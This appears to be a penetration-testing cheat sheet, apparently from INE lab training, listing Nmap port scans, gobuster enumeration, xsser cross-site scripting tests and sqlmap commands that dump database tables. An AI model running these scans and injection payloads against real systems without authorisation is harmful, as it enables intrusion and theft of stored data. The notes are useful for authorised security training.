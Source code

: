 # Port scanning and service fingerprinting

## Nmap

### Ping sweep

```shell
nmap -sn -n $IP_range_CIDR -oN network_hosts
```

### Port scanning

#### SYN scan (noisy)
```shell
nmap -sS -n -Pn -p- --min-rate 5000 $target_IP -oN allPorts -oG allPorts
```

#### Connect() scan
```shell
nmap -sT -n -Pn -p- --min-rate 5000 $target_IP -oN allPorts -oG allPorts
```

#### UDP scan
```shell
nmap -sU -n -Pn -p- --min-rate 5000 $target_IP -oN allPorts -oG allPorts
```


### Service fingerprinting and NSE scripts

Enter the comma separated open port list after the `-p` parameter

```shell
nmap -sC -sV -p $OPEN_PORTS -oN targeted
```


## Other tools

# Web server attacks

## Web server fingerprinting

### Ncat

### OpenSSL

### whatweb

To get the server banners run

```shell
whatweb $TARGET_URL
```

## Directory and file enumeration

### dirb

### dirsearch

### gobuster

gobuster dir -u $URL -w $WORDLIST -q -o $OUTPUT_FILE -x old,bak,zip,rar,sql,java,php,cs

# XSS

Test all user inputs to render HTML placing tags or execute JavaScript code with the `<script>` tag.

## XSSER

USAGE


Replace the parameter to inject with the “XSS” keyword or put the XSS keyword on the URL GET parameter to inject payload.

  

### GET REQUEST

```shell
xsser --url 'http://demo.ine.local/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=sas&user-poll-php-submit-button=Submit+Vote'
```


  
### POST REQUEST

Get the request parameters and use the -p flag to set the reflection points

```shell
xsser --url 'http://VULNERABLE/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'
```


### AUTOMATIC PAYLOAD

Append the `–auto` flag

```shell
xsser --url 'http://VULNERABLE/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' –auto
```
  

### CUSTOM PAYLOAD

Append the –Fp switch with the custom payload

```shell
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"
```


```shell
xsser --url "http://demo.ine.local/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=d&user-poll-php-submit-button=Submit+Vote" --Fp "<script>alert(1)</script>"
```
  
# SQLInjection

## SQLMap

### GET parameters

Enumerate DBMS banner, the current Database and it's tables using 10 threads

```shell
sqlmap -u 'http://demo.ine.local/index.php?page=user-info.php&username=sf&password=saf&user-info-php-submit-button=View+Account+Details' -p username --banner --current-db --tables --threads 10

```

Dump the information of a table

```shell
sqlmap -u 'http://demo.ine.local/index.php?page=user-info.php&username=sf&password=saf&user-info-php-submit-button=View+Account+Details' -p username --banner --current-db --dump -T accounts --threads 10
```


### POST request

Define the POST parameters with the `--data` flag.

```shell
sqlmap -u 'http://demo.ine.local/index.php?page=login.php' --data="username=ss&password=ss&login-php-submit-button=Login" -p username --banner --current-db --dump --tables --threads 10

```


# Dump a specific table

```shell
sqlmap -u 'http://demo.ine.local/index.php?page=login.php' --data="username=ss&password=ss&login-php-submit-button=Login" -p username --banner --current-db --dump -T table --threads 10
```

# Dump a specific table from a database
```shell
sqlmap -u 'http://demo.ine.local/index.php?page=login.php' --data="username=ss&password=ss&login-php-submit-button=Login" -p username --banner -D database --dump -T table --threads 10
```


common ports 

21,22,25,53,443,5000,8000,8080,3306
